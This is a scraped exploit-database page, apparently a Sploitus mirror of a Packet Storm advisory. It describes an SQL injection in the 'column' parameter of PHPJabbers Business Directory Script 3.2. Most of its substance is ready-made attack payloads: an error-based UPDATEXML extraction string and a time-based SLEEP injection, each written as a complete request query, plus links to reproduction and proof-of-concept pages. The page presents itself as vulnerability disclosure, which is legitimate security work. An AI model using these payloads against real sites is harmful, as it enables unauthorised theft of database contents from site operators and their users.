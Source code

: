 ```yaml
---
title: Business Directory Script 3.2 SQL Injection exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:174327&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-08-26
fetch_date: 2025-10-04T11:58:57.030913
---
```


# Business Directory Script 3.2 SQL Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Business Directory Script 3.2 SQL Injection

2023-08-25 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:174327
## Title: Business-Directory-Script-3.2 SQLi
## Author: nu11secur1ty
## Date: 08/25/2023
## Vendor: https://www.phpjabbers.com/
## Software: https://www.phpjabbers.com/business-directory-script/#sectionDemo
## Reference: https://portswigger.net/web-security/sql-injection

## Description:
The `column` parameter appears to be vulnerable to SQL injection
attacks. The payload ' was submitted in the column parameter, and a
database error message was returned. You should review the contents of
the error message, and the application's handling of other input, to
confirm whether a vulnerability is present. Additionally, the payload
(select*from(select(sleep(20)))a) was submitted in the column
parameter. The application took 20271 milliseconds to respond to the
request, compared with 230 milliseconds for the original request,
indicating that the injected SQL command caused a time delay. The
attacker can steal all information from the database of the server of
this application!

STATUS: HIGH-CRITICAL Vulnerability

[+]Payload:
```mysql
---
Parameter: column (GET)
Type: error-based
Title: MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)
Payload: controller=pjAdminListings&action=pjActionGetListing&column=(UPDATEXML(2242,CONCAT(0x2e,0x716a767a71,(SELECT
(ELT(2242=2242,1))),0x7178787671),5199))&direction=ASC&page=1&rowCount=10&listing_refid=999888&keyword=999888&owner_id=&address_state=999888&address_city=999888&country_id=2&category_id=

Type: time-based blind
Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
Payload: controller=pjAdminListings&action=pjActionGetListing&column=(SELECT
6261 FROM (SELECT(SLEEP(15)))CMYC)&direction=ASC&page=1&rowCount=10&listing_refid=999888&keyword=999888&owner_id=&address_state=999888&address_city=999888&country_id=2&category_id=
---

```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/phpjabbers/2023/Business-Directory-Script-Version%3A3.2/SQLi)

## Proof and Exploit:
[href](https://www.nu11secur1ty.com/2023/08/business-directory-script-version32-sqli.html)

## Time spend:
01:35:00
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)